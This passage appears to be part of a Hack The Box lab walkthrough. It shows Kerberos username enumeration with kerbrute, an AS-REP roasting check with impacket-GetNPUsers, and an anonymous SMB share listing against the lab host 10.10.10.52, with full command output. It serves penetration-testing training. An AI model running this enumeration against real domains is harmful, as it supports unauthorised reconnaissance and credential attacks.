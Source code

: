 ### Kerberos(88)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ kerbrute_linux_arm64 userenum --domain htb.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.52

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 12/29/24 - Ronnie Flathers @ropnop

2024/12/29 05:05:44 >  Using KDC(s):
2024/12/29 05:05:44 >   10.10.10.52:88

2024/12/29 05:05:45 >  [+] VALID USERNAME:       james@htb.local
2024/12/29 05:05:51 >  [+] VALID USERNAME:       James@htb.local
2024/12/29 05:06:24 >  [+] VALID USERNAME:       administrator@htb.local
2024/12/29 05:06:45 >  [+] VALID USERNAME:       mantis@htb.local
2024/12/29 05:07:55 >  [+] VALID USERNAME:       JAMES@htb.local
2024/12/29 05:12:43 >  [+] VALID USERNAME:       Administrator@htb.local
2024/12/29 05:15:31 >  [!] bdiddy@htb.local - failed to communicate with KDC. Attempts made with UDP (error sending to a KDC: error sneding to 10.10.10.52:88: sending over UDP failed to 10.10.10.52:88: read udp 10.10.14.4:34544->10.10.10.52:88: i/o timeout) and then TCP (error in getting a TCP connection to any of the KDCs)                                                            
2024/12/29 05:15:36 >  Done! Tested 18134 usernames (6 valid) in 591.966 seconds
```

Find several valid AD users: `james`, `administrator`, `mantis`
Let's check if any of them has `pre-auth` unset.
This will be useful for `AS-REPRoasting`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ impacket-GetNPUsers -dc-ip 10.10.10.52 -usersfile ad_users.txt htb.local/ 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mantis doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```

None of them are useful.

### smb(139,445)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ smbclient -L 10.10.10.52
Password for [WORKGROUP\kali]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.52 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
